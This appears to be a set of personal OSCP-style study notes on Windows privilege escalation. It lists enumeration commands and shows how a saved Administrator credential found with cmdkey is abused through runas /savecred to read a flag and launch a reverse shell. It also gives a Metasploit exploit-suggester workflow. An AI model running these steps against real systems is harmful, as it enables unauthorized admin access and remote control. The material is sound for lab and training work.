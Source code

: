 ## Intro
Whenewer possible, use winpeas

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

Also check out this:

https://github.com/nestef23/my-OSCP-notes/blob/main/Active%20Directory/Local-Privesc.md

## Basic info
```
systeminfo

ipconfig

# display running services
net start

# display stored user names and passwords or credentials.
cmdkey /list
```

## Usefull CMD commands
```
# get own groups
whoami /priv

# Read file
type <filename>

# Find file restrictions (similar to ls -al)
icacls <filename>

# Change text file contents
echo <new content> > <filename>
```

### saved creds
A useful command to run when beginning enumeration is "cmdkey /list", which displays stored
user names and passwords or credentials. This reveals a stored credential for
"ACCESS\Administrator".
```
PS C:\Users> cmdkey /list
Currently stored credentials:
    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```
Let's abuse it to run our own command as admin
```
# Read flag
PS C:\Users> runas /user:ACCESS\Administrator /savecred "cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\temp\root.txt"

# Launch estalated revshell
runas /user:ACCESS\Administrator /savecred "powershell -ExecutionPolicy Bypass -File C:\Users\security\Desktop\revshell.ps1"
runas /user:ACCESS\Administrator /savecred c:\users\security\revshell.bat
```

## Metasploit
Assuming you have an existing meterpreter access to the target
```
# background current session
background

# find available exploits
use post/multi/recon/local_exploit_suggester
set session X
run

# choose one of the suggested exploits and run it
use windows/local/XXXXX
set session X
set LHOST <KALI IP>
run

# IF it doesn't work
# 1. Verify LHOST, LPORT and Session
# 2. Choose different suggested exploit.
# PROFIT $$$
```

## Additional materials
https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
